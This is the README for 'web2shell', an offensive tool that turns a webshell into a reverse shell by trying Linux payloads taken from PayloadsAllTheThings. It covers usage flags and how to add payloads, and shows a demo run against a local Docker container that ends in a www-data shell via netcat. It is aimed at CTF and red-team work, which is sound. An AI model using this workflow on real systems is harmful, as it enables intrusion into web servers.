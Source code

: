 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell [-h] [-v] [-i INTERFACE] [--force] [--ip IP] [--port PORT] [--nc NC] [--only [ONLY ...]] url

Automate converting webshells into reverse shells.

positional arguments:
  url                   webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL

options:
  -h, --help            show this help message and exit
  -v, --verbose         verbose command output
  -i INTERFACE, --interface INTERFACE
                        the interface to use when listening for a remote shell. If none is provided you will be prompted to select one.
  --force               force command execution even if initial check is invalid
  --ip IP               IP address of your own listener (skips listener setup if both IP and port are set)
  --port PORT           port of your own listener
  --nc NC               path to local nc binary
  --only [ONLY ...]     list of bins to test, ignores all others. ex: --only python php node
```

Providing an IP and port will cause the program to skip the listener setup and assume you already have netcat/a comparable listener running at that address.

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't (it might not be in your `$PATH`), please specify the path to the binary with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`. If the payload specifies the shell replace it with `SHELLHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py http://127.0.0.1:8080/cmd.php?cmd=SHELL

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                v0.1.2   @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] br-3bd00064871f
[-] docker0
[-] br-a01c69609a5e
[-] br-a193929c6ae4
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] br-2369a8165a53
[-] veth7b49643
No interface provided. Please enter the name of an available interface or 'exit' to quit:
> docker0
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[x] 1025 already in use or unavailable.
[-] 1026 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1026...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1026
Ncat: Listening on 0.0.0.0:1026
[-] perl found at /usr/bin/perl
[-] php found at /usr/local/bin/php
[-] python3 found at /usr/bin/python3
[-] ruby found at /usr/bin/ruby
[-] go found at /usr/bin/go
[-] node found at /usr/bin/node
Finding shells...
[-] bash found at /usr/bin/bash
[-] sh found at /usr/bin/sh
Executing reverse shell...
Bins to test: 6
Shells to test: 2
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:40170.
www-data@849d7a9007c8:/var/www/html$
```
